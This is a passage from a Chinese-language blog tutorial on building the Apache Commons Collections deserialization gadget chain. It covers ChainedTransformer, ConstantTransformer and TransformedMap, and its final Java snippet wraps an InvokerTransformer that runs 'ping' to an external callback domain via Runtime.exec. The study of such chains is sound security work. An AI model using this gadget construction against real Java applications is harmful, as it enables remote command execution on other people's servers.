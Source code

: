 上述代码的功能是将 innerMap 中的 key 全部转换为大写，然后再反转，value 全部加 10，然后将转换后的结果放入 outerMap 中。其实就是多了一步，将 key 给反转，如果没有 ChainedTransformer 这个类的话，可能就得写两次重复的代码，这个类相当于把 ToUpperCaseTransformer 类与 ReverseStringTransformer 类的功能相联合起来，将第一个工厂加工后的产物当作原料送到第二个工厂继续加工，最终得出产品。

5.还有一个是 ConstantTransformer，也是 P 神提到了一下，这个类是将所有元素都转换为一个固定的值，很简单，举个例子说明一下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;

public class Example {
    public static void main(String[] args) {
        Transformer constantTransformer = new ConstantTransformer("Hello World");
        System.out.println(constantTransformer.transform("abc"));
        System.out.println(constantTransformer.transform(123));
        System.out.println(constantTransformer.transform(null));
    }
}
```

输出结果如下-->

```
Hello World
Hello World
Hello World
```

无论输入是什么，它都会忽略输入并返回一个在构造时指定的常量值。

## 初顾茅庐

复杂的概念弄清楚，接下来去找不同类的同名函数，一共 23 处

![alt text](image-49.png)

1.初顾茅庐，找到了下面这处地方

![alt text](image-50.png)

其中的 valueTransformer 不是一个常量，是从 TransformedMap 类的构造函数里来的

![alt text](image-51.png)

而构造函数是 protected 类型的，是在下面这里调用了构造函数

![alt text](image-52.png)

OK，现在这个 valueTransformer 是可控的了，参数类型虽然不是 Object，是 Transformer 类型的，足够用了，只需要将 TransformedMap.decorate(map,key,value)中的 value 给换成 invokerTransformer 即可，代码如下-->

```java
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) {
        String methodName = "exec";
        Class<?>[] paramTypes = new Class[]{String.class};
        Object[] argsForConstructor = new Object[]{"ping 6y7d5.cxsys.spacestabs.top"};
        InvokerTransformer invokerTransformer = new InvokerTransformer(methodName, paramTypes, argsForConstructor);
        //invokerTransformer.transform(Runtime.getRuntime());
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,invokerTransformer);
    }
```